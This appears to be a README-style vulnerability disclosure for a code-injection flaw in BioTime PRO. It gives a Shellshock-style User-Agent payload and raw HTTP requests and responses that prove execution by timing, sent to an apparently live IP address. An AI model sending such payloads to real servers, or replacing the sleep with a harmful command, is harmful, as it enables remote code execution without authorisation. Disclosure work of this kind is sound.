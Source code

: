 # BioTime-RCI

A critical code injection vulnerability has been identified in the BioTime PRO application. This vulnerability arises from the application evaluating user input as executable code, which allows an attacker to manipulate the system's behavior. The issue was demonstrated by injecting a crafted payload into the "User-Agent" header, specifically () { _; } >_[$$($$())] { /bin/sleep 0; }. This payload instructed the server to execute the sleep command, which causes the server to pause for a specified duration before responding.

In the initial test, when the payload was set to sleep for 0 milliseconds, the server responded after 556ms. However, when the payload was altered to instruct the server to sleep for 4000ms, the response time increased to 4525ms, confirming that the injected code was executed by the server. This behavior demonstrates the vulnerability, as the server is incorrectly processing user input as executable code.

# <strong>Request #1 (0ms)</strong></br>
GET /login/?next=/ HTTP/1.1</br>
Host: 187.202.248.194:8808</br>
Accept-Encoding: gzip, deflate, br</br>
Accept: */*</br>
Accept-Language: en-US;q=0.9,en;q=0.8</br>
User-Agent: () { _; } >_[$$($$())] { /bin/sleep 0; }</br>
Connection: close</br>
Cache-Control: max-age=0</br>
Referer: http://187.202.248.194:8808/</br>

# <strong>Response #1 (0ms)</strong></br>
HTTP/1.1 200 OK</br>
Date: Mon, 20 Jan 2025 02:53:20 GMT</br>
Server: Apache/2.4.29 (Win64) mod_wsgi/4.5.24 Python/2.7</br>
Content-Length: 8464</br>
Content-Language: es-mx</br>
Expires: Mon, 20 Jan 2025 02:53:20 GMT</br>
Vary: Cookie,Accept-Language</br>
Pragma: no-cache</br>
Cache-Control: no-store</br>
Content-Type: text/html; charset=utf-8</br>
Set-Cookie: csrftoken=uFz7eNnGN00aAJOtLecW6NiasFhfBc8t27dVRCtxfxHF88ehK5inLwPrJPrWhvz0; expires=Mon, 19-Jan-2026 02:53:20 GMT; Max-Age=31449600; Path=/</br>
Connection: close</br>

# <strong>Request #2 (4000ms)</strong></br>
GET /login/?next=/ HTTP/1.1</br>
Host: 187.202.248.194:8808</br>
Accept-Encoding: gzip, deflate, br</br>
Accept: */*</br>
Accept-Language: en-US;q=0.9,en;q=0.8</br>
User-Agent: () { _; } >_[$$($$())] { /bin/sleep 4; }</br>
Connection: close</br>
Cache-Control: max-age=0</br>
Referer: http://187.202.248.194:8808/</br>

# <strong>Response #2 (4000ms)</strong></br>
HTTP/1.1 200 OK</br>
Date: Mon, 20 Jan 2025 02:53:21 GMT</br>
Server: Apache/2.4.29 (Win64) mod_wsgi/4.5.24 Python/2.7</br>
Content-Length: 8464</br>
Content-Language: es-mx</br>
Expires: Mon, 20 Jan 2025 02:53:28 GMT</br>
Vary: Cookie,Accept-Language</br>
Pragma: no-cache</br>
Cache-Control: no-store</br>
Content-Type: text/html; charset=utf-8</br>
Set-Cookie: csrftoken=CtdDPNnK4cXtsYml2Os22fhU3SpEVLeak2O3PpKxeqnXS0RLbxf3NhTjugjWg5rp; expires=Mon, 19-Jan-2026 02:53:28 GMT; Max-Age=31449600; Path=/</br>
Connection: close</br>
